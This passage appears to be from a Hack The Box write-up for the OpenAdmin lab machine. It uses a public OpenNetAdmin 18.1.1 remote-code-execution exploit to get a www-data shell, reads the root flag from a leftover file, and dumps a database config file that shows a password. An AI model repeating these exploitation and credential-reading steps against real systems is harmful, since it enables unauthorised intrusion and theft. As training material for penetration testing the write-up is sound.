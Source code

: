 I see it's running `v18.1.1` and a quick search on exploit-db shows I can get RCE by exploiting a bug in the application.

```
OpenNetAdmin 18.1.1 - Remote Code Execution     | exploits/php/webapps/47691.sh
```

After executing the exploit I have RCE as user `www-data`.

```
root@kali:~/htb/openadmin# ./exploit.sh http://openadmin.htb/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Unintended path to root flag

While looking around the filesystem I found a hash in `priv.save` which turned out to be the root flag.
```
$ ls -l /opt
total 12
drwxr-x--- 7 www-data www-data 4096 Nov 21 18:23 ona
-rw-r--r-- 1 root     root        0 Nov 22 23:49 priv
-rw-r--r-- 1 root     root       33 Jan  2 20:54 priv.save
-rw-r--r-- 1 root     root       33 Jan  2 21:12 priv.save.1
$ cat /opt/priv.save
2f907ed450b[...]
```

## Escalating to user jimmy

I see there's two additonal users which I don't have access to right now.

```
$ ls -l /home
total 8
drwxr-x--- 5 jimmy  jimmy  4096 Nov 22 23:15 jimmy
drwxr-x--- 6 joanna joanna 4096 Nov 28 09:37 joanna

$ lslogins
  UID USER            PROC PWD-LOCK PWD-DENY  LAST-LOGIN GECOS
[...]
 1000 jimmy              0                   Jan02/20:50 jimmy
 1001 joanna             0                   Jan02/21:12 ,,,
```

The OpenNetAdmin database credentials are shown in the `/database_settings.inc.php` file.

```
$ cat /opt/ona/www/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
```